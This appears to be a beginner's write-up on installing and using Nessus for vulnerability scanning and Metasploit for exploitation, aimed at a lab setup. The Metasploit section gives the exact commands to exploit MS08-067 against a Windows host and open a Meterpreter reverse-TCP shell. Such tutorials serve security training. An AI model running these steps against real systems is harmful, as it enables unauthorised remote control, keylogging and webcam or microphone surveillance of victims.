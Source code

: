# Kali-Tools-Write-Ups

## Nessus

This tool is very useful in bringing out all the vulnerabilities it knows on a target machine or target network.

### Installation

You can download the home version from [here](https://www.tenable.com/products/nessus/select-your-operating-system). Keep in mind that this requires a registration as you will get a registration code in your email.
Once you download the .deb file, run the below command to install the package:
```
dpkg –i Nessus-6.5.6-debian6_amd64.deb
```        
Next, we start the service using,
```
#/etc/init.d/nessusd start
```        
### Usage

Nessus uses a web client and hence is accessed using the browser. The default port used by Nessus is 8834 and can be reached using the URL `https://localhost:8834`. Follow the manual instructions in the web-page including the screen that asks for your registration code. You will finally reach the page that asks you to create a new Scan. 

A new Scan is the target scan configuration. A scan configuration can be saved so that one can rerun the same scan multiple times. For a basic scan, select `Basic Network Scan` as the scan template. This template does a scan of many network vulnerabilities Nessus is aware of. Give the scan a name and description. The Targets field is the network or the host you wish to target the scan towards. This could be an IP address, a domain or even a network. 

On saving the scan, you reach the screen with all the scans you have created. If you are ready to execute the scan, hit the Launch icon on the scan record in the table. This will initiate the scan. This could take a while depending on how many hosts you are targeting.

Once it is complete, you can click on the scan to get the results of the scan. You will get to see the split up the vulnerabilities found ranging from Critical, High to just Informational findings. To see the vulnerabilities, click the host. The best part of Nessus lies here. It lists what it found and also a shit load of information about the vulnerability!! It also tries to list what you could use to exploit this vulnerability (shhh!)

## Metasploit

Metasploit is the mother load of exploits. This suite is a compilation of many exploit modules which can be easily used to attack a target machine. 

### Installation

Metasploit comes installed on Kali Linux. It can be launched by either using the Metasploit icon in the Applications menu or by using the command `msfconsole` in a terminal. If you are using any other Linux OS, there is plenty of documentation out there. [This](http://docs.kali.org/category/installation) is the official documentation.

### Usage

Now we come to the fun part! Since there are a multitude of modules, Metasploit offers a search feature which helps use find modules for the exploit we are looking for. For example, if we are searching for the exploit on Microsoft's defect MS08_067, you would do a `search MS08_067' and it will list the modules it has on that defect. (Please note: your Windows VM should not have the patch installed to fix this vulnerability)

Now once you have found your exploit module, we need to load that module on Metasploit. We do this by
```
use exploit/windows/smb/ms08_067_netapi
```
Once the module has loaded, Metasploit requires us to give it the parameters and configuration dependencies for the module. To see what all it uses, hit
```
show options
```
One will be able to see parameters like RHOST = Remote target Host, LHOST = Local Host, SRVHOST = Server IP, etc. This will vary depending on the module that you have loaded of course.
Suppose we wish to load the RHOST remote target IP in this case, all we would need to do is,
```
set RHOST 192.168.1.9
```
This sets 192.168.1.9 as the target host.

Next, we come to the payloads. Payloads define the basic implementation of the module, this basically determines what kind of attack you want to conduct the attack and what you want to get after exploiting the vulnerability. For the different types of payloads, check [this](https://www.offensive-security.com/metasploit-unleashed/payload-types/) out.

For this we use Reverse TCP payload which is a method which sets us the server (uses a non standard port) and the client will be the target machine using a standard port. This makes sure that we don't have to depend on ports that potentially could be blocked by some firewalls.
```
set payload windows/meterpreter/reverse_tcp
```
We obtain a Meterpreter session in this case which is a payload from Metasploit which by itself is very powerful. This uses DLL injections to execute client-side scripts which have a server written in C and the client is written in Ruby. The functions range from trying to elevate privileges in the machine to getting access to the key-presses on the machine and recording feed from the remote machine’s microphone or web camera. 

The final command and the exploit begins:
```
exploit
```
After the exploit is complete, we get a Meterpreter shell which helps us execute any command on the remote Windows machine. Congratulations!! You have just performed your first exploit.